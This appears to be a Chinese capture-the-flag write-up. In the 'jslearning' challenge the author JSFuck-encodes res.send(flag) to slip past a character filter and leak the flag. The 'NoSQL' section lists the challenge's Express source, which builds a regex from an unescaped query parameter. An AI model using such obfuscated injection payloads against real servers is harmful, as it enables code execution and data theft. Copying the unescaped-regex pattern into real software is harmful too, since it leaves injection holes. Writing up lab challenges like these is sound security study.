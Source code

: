 ### jslearning

> Frank 一眼就看出来然后秒了（

用JSFuck编码一下丢上去就出来了。payload

```javascript
res.send(flag)
```

对应的 JSFuck

```javascript
(!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+([][[]]+[])[+!+[]]+([][[]]+[])[!+[]+!+[]]+([][[]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[!+[]+!+[]]]+(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(![]+[+[]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+([+[]]+![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+[]]]
```

### NoSQL

provided.js

```javascript
const express = require('express')

const app = express();
const port = 3000;
const fs = require('fs')
try {
    const inputD = fs.readFileSync('table.txt', 'utf-8');
    text = inputD.toString().split("\n").map(e => e.trim());
} catch (err) {
    console.error("Error reading file:", err);
    process.exit(1);
}

app.get('/', (req, res) => {
    if (!req.query.name) {
        res.send("Not a valid query :(")
        return;
    }
    let goodLines = []
    text.forEach( line => {
        if (line.match('^'+req.query.name+'$')) {
            goodLines.push(line)
        }
    });
    res.json({"rtnValues":goodLines})
})

app.get('/:id/:firstName/:lastName', (req, res) => {
    // Implementation not shown
    res.send("FLAG")
})

app.listen(port, () => {
    console.log(`App server listening on ${port}. (Go to http://localhost:${port})`);
});
```